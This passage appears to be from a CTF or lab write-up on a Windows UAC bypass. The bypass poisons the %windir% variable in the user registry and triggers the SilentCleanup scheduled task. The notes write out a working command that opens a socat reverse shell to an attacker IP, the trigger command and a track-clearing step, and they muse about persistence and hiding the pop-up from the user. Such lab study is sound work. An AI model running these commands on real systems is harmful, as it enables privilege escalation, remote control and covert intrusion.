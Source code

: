 ```shell-session
C:\> reg add "HKCU\Environment" /v "windir" /d "cmd.exe /c C:\tools\socat\socat.exe TCP:<attacker_ip>:4446 EXEC:cmd.exe,pipes &REM " /f
```

- Querying the registry editor BEFORE poisoning `%windir%`:

![](/assets/img/Pasted image 20230120112323.png)

- Querying the registry editor AFTER poisoning `%windir%`:

![](/assets/img/Pasted image 20230120112351.png)

	- Notice the added 'windir' entry in the HKCU\Environment registry key.

```
C:\> schtasks /run  /tn \Microsoft\Windows\DiskCleanup\SilentCleanup /I
```

![](/assets/img/Pasted image 20230120112503.png)

<u>Received Shell</u>:

![](/assets/img/Pasted image 20230120112538.png)

<u>What the user is seeing during the execution of this exploit</u>:

![](/assets/img/Pasted image 20230120112609.png)

	- A cmd.exe pops up and stays up! Find a way to remove this pop up.
	- If this cmd.exe pop up gets only removed if the reverse shell session exits, I guess you can use this exploit specifically for persistence? So if you ever need to get something quickly, you use this? Much better when done right after the user has logged in as the cmd.exe normally pops up at the startup. (like the rest of malware)

##### Getting the Flag:

![](/assets/img/Pasted image 20230120112924.png)

### Clearing our Tracks

```batch
reg delete "HKCU\Environment" /v "windir" /f
```

	- This deletes the specific variable inside HKCU\Environment entry.

--------
# Automating UAC Bypasses

- `[https://github.com/hfiref0x/UACME](https://github.com/hfiref0x/UACME)`

![](/assets/img/Pasted image 20230120113212.png)

